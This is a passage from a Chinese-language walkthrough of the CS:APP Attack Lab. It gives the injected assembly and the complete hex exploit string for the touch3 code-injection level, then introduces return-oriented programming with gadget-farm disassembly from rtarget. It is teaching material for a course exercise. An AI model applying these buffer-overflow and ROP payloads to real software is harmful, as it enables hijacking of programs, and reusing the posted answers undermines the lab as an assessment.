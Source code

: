 `touch3`中要求`hexmatch`函数的返回值不为0，分析`hexmatch`后其实也就是要我们的参数是cookie不含0x的字符串，查看`hexmatch`的汇编代码，发现仍然的要把值赋给`%rdi`，只不过这时候我们要传递给它的是字符串的首地址。

我们把字符串放在了一开始的返回地址的后面，然后写出`phase3.s`：

```s
# to solve the level 3 of Code Injection Attacks
mov $0x5561dca8, %rdi # set string address in %rdi
push $0x4018fa
ret
```

这里是把字符串的首地址赋给了`%rdi`，然后其他就是和上一关一样的操作了。

于是本关的答案就是：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

## Return-Oriented Programming 返回导向编程攻击

这里我们要面对稍微安全一些的程序，`rtarget`使用了两个策略来阻止代码注入：

* 栈的地址是随机的，每次运行的时候都不一样，这样我们就不能想办法在栈中特定地址存放需要的值。
* 栈是不可执行的，即使我们插入了代码，也会出现segmentation fault而中断程序。

但是这样的措施并难不倒真正攻击的黑客们，他们会想方设法从程序中找到恰好能代表某些指令的代码，然后利用这些程序本身就有的代码，来实现对程序的破解。

例如我们有如下的几个对照表，给出了一些常见的赋值之类的操作对应的十六进制值。

![](https://raw.githubusercontent.com/zxc479773533/zxc479773533.github.io/master/_posts/images/Attack-Lab-01.png)

![](https://raw.githubusercontent.com/zxc479773533/zxc479773533.github.io/master/_posts/images/Attack-Lab-02.png)

此外再补充一个指令：nop，没有任何操作，对应字节是`0x90`

这里为了方便我们熟悉，程序中也专门给出了一些gadget，供我们来寻找能用的代码。

执行`objdump -d rtarget > rtarget.asm`，得到的文件中，有这么一段：

```s
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

```